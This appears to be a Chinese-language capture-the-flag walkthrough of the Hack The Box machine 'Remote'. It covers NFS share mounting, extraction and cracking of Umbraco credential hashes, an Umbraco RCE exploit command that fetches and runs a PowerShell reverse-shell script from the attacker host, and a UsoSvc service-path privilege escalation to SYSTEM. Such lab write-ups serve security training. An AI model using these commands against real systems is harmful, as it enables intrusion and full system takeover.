



信息搜集¶
Nmap¶
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.180 -oA scans/ports
...
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
111/tcp open rpcbind
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
2049/tcp open nfs
5985/tcp open wsman
47001/tcp open winrm
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49678/tcp open unknown
49679/tcp open unknown
49680/tcp open unknown
...
root@kali# nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
...
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/tcp6 rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 2,3,4 111/udp6 rpcbind
| 100003 2,3 2049/udp nfs
| 100003 2,3 2049/udp6 nfs
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/tcp6 nfs
| 100005 1,2,3 2049/tcp mountd
| 100005 1,2,3 2049/tcp6 mountd
| 100005 1,2,3 2049/udp mountd
| 100005 1,2,3 2049/udp6 mountd
| 100021 1,2,3,4 2049/tcp nlockmgr
| 100021 1,2,3,4 2049/tcp6 nlockmgr
| 100021 1,2,3,4 2049/udp nlockmgr
| 100021 1,2,3,4 2049/udp6 nlockmgr
| 100024 1 2049/tcp status
| 100024 1 2049/tcp6 status
| 100024 1 2049/udp status
|_ 100024 1 2049/udp6 status
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
2049/tcp open mountd 1-3 (RPC #100005)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 2m38s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-03-22T18:57:11
|_ start_date: N/A
...
目录FUZZ¶
80端口打开后像是一个介绍页面，没发现有啥有用的东西，尝试爆破
root@kali# gobuster dir -u http://10.10.10.180 -w /usr/share/wordlists/Web-Content/common.txt -t 30 --no-error
...
/Home (Status: 200) [Size: 6703]
/Blog (Status: 200) [Size: 5011]
/Contact (Status: 200) [Size: 7890]
/Products (Status: 200) [Size: 5338]
/blog (Status: 200) [Size: 5001]
/contact (Status: 200) [Size: 7880]
/home (Status: 200) [Size: 6703]
/install (Status: 302) [Size: 126] [--> /umbraco/]
/intranet (Status: 200) [Size: 3323]
/master (Status: 500) [Size: 3420]
/people (Status: 200) [Size: 6739]
/person (Status: 200) [Size: 2741]
/products (Status: 200) [Size: 5328]
/product (Status: 500) [Size: 3420]
/render/https://www.google.com (Status: 400) [Size: 3420]
/umbraco (Status: 200) [Size: 4040]
...
##存在一个叫umbraco的cms，继续爆破
root@kali# gobuster dir -u http://10.10.10.180/umbraco -w /usr/share/wordlists/Web-Content/common.txt -t 30 --no-error
...
/Default (Status: 200) [Size: 4040]
/Members (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/Members/]
/Search (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/Search/]
/actions (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/actions/]
/application (Status: 200) [Size: 2455]
/assets (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/assets/]
/config (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/config/]
/controls (Status: 301) [Size: 160] [--> http://10.10.10.180/umbraco/controls/]
/create (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/create/]
/dashboard (Status: 301) [Size: 161] [--> http://10.10.10.180/umbraco/dashboard/]
/default (Status: 200) [Size: 4040]
/developer (Status: 301) [Size: 161] [--> http://10.10.10.180/umbraco/developer/]
/dialogs (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/dialogs/]
/install (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/install/]
/js (Status: 301) [Size: 154] [--> http://10.10.10.180/umbraco/js/]
/lib (Status: 301) [Size: 155] [--> http://10.10.10.180/umbraco/lib/]
/masterpages (Status: 301) [Size: 163] [--> http://10.10.10.180/umbraco/masterpages/]
/members (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/members/]
/plugins (Status: 301) [Size: 159] [--> http://10.10.10.180/umbraco/plugins/]
/preview (Status: 302) [Size: 125] [--> /umbraco]
/render/https://www.google.com (Status: 400) [Size: 3420]
/search (Status: 301) [Size: 158] [--> http://10.10.10.180/umbraco/search/]
/settings (Status: 301) [Size: 160] [--> http://10.10.10.180/umbraco/settings/]
/views (Status: 301) [Size: 157] [--> http://10.10.10.180/umbraco/views/]
/webservices (Status: 301) [Size: 163] [--> http://10.10.10.180/umbraco/webservices/]
...
WEB页面¶
10.10.10.180：

找到一个登陆点，http://10.10.10.180/umbraco/#/login/false?returnPath=%252Fforms：
漏洞检测与利用¶
80¶

发现umbraco的7.12.4版本存在一个RCE，但是需要账号和密码。
FTP - TCP 21¶
FTP 是开放的，允许匿名访问。连接后发现根目录是空的，也不可以上传。
root@kali# ftp 10.10.10.180
Connected to 10.10.10.180.
220 Microsoft FTP Service
Name (10.10.10.180:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
SMB - TCP 445¶
无法访问任何共享
root@kali# smbclient -N -L //10.10.10.180
session setup failed: NT_STATUS_ACCESS_DENIED
root@kali# smbmap -H 10.10.10.180
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.180
[!] Authentication error on 10.10.10.180
NSF - TCP 2049¶
NFS 在 HTB 机器上非常罕见，因此，它的开放性绝对值得关注。查看靶机的分享目录：
root@kali# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
## 把它挂载到我的主机上：/mnt
root@kali# mount -t nfs 10.10.10.180:/site_backups /mnt/
## 查看分享内容
root@kali:/mnt# ls
App_Browsers App_Data App_Plugins aspnet_client bin Config css default.aspx
Global.asax Media scripts Umbraco Umbraco_Client Views Web.config
## 查找分享目录内含有pass字样文件
root@kali# find ./|xargs grep -ri 'pass' -l 130 ⨯
./App_Data/Logs/UmbracoTraceLog.intranet.txt
./App_Data/Logs/UmbracoTraceLog.intranet.txt.2020-02-19
./App_Data/Models/all.generated.cs
./App_Data/Models/models.generated.cs
在Web.config确认cms版本号为：7.12.4,正是上面存在rce的版本。
在App_Data/Logs/UmbracoTraceLog.intranet.txt下找到一个登陆用户名：admin@htb.local
## 再次查找分享目录内含有admin@htb.local字样文件
root@kali# find ./|xargs grep -ri 'admin@htb.local' -l 130 ⨯
./App_Data/Logs/UmbracoTraceLog.intranet.txt
./App_Data/Logs/UmbracoTraceLog.intranet.txt.2020-02-19
./App_Data/Logs/UmbracoTraceLog.remote.txt
./App_Data/Umbraco.sdf
## 在App_Data/Umbraco.sdf下找到相关字样，把这个文件重定向到kali
root@kali# strings App_Data/Umbraco.sdf >/root/htb/Remote/umbraco.txt
将位于 App_Data/Umbraco.sdf 文件中的字符串提取出来，并将这些字符串的内容输出到 /root/htb/Remote/umbraco.txt 文件中。简单来说，它把一个文件中的文本提取出来并保存到另一个文件中。
root@kali# head umbraco.txt
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
可以看到爆出了几个用户名，哈希密码，以及哈希算法，整理如下
- 用户名：admin@htb.local 哈希：b8be16afba8c314ad33d812f22a04991b90e2aaa 哈希算法：SHA1
- 用户名：smith@htb.local 哈希：jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= 哈希算法：HMACSHA256
- 用户名：ssmith@htb.local 哈希：8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA= 哈希算法：HMACSHA256

解出来用户admin@htb.local密码哈希明文：baconandcheese，上面用户凭据可以登录cms
反弹shell¶
Exp：https://github.com/noraj/Umbraco-RCE
攻击：
root@kali# python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')"
收到一个反弹shell:
root@kali# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.180] 49724
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
提权¶
传winpeas到靶机¶
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:8000/winPEASx64.exe','C:\users\public\winPEASx64.exe')
WinPEAS.exe下载地址：https://www.ddosi.org/peass-ng/#%E2%91%A0WinPEAS%E7%94%A8%E6%B3%95%E5%8F%8A%E8%AF%B4%E6%98%8E
执行：
&是 PowerShell 中的调用操作符，它允许你执行指定路径下的可执行文件或者脚本。
服务提权¶
发现拥有开启和关闭一个RmSvc服务的权限
Modifiable Services
Z% Check if you can modify any service https://book.hacktricks.xyz/windows/windows-loc
al-privilege-escalation#services
LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
RmSvc: GenericExecute (Start/Stop)
UsoSvc: AllAccess, Start
RmSvc：
权限： GenericExecute（启动/停止）
解释： 这表明你拥有对名为 "RmSvc" 的服务进行启动和停止的权限。具体来说，你可以启动和停止这个服务，但是没有提及修改配置的权限。
UsoSvc：
- 权限： AllAccess（完全访问权限）、Start（启动）
- 解释： 这表明你对名为 "UsoSvc" 的服务拥有完全访问权限，并且可以启动这个服务。"AllAccess" 意味着你有对该服务的全部权限，可能包括修改配置等操作。
PS下查看这个服务的信息
PS C:\> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: UsoSvc
TYPE : 20 WIN32_SHARE_PROCESS
START_TYPE : 2 AUTO_START (DELAYED)
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\system32\svchost.exe -k netsvcs -p
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Update Orchestrator Service
DEPENDENCIES : rpcss
SERVICE_START_NAME : LocalSystem
sc.exe qc UsoSvc 是一个用于 Windows 操作系统的命令行工具。它主要用于查询服务的配置信息。在这个命令中，"UsoSvc" 是服务的名称，它指的是“Update Orchestrator Service”，这是 Windows Update 的一部分，负责管理更新的安装和配置。
这个命令的作用是查询并显示名为 "UsoSvc" 的服务的配置信息。它会显示出服务的详细信息，比如服务的名称、显示名称、描述、路径、启动类型、启动参数等等。
修改这个服务二进制文件的路径
将服务 "UsoSvc" 的二进制路径修改为 "C:\Users\Public\shell.exe"，这样，当这个服务被启动时，它将执行位于这个路径下的 "shell.exe" 文件。
编译一个反弹shell文件
下载到靶机
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:8000/shell.exe','C:\users\public\shell.exe')
重启服务
拿到反弹shell
exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.3:4444
[*] Sending stage (200262 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.180:49863) at 2021-12-26 11:20:13 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
需要注意，shell很快就会断掉，需要重新连接。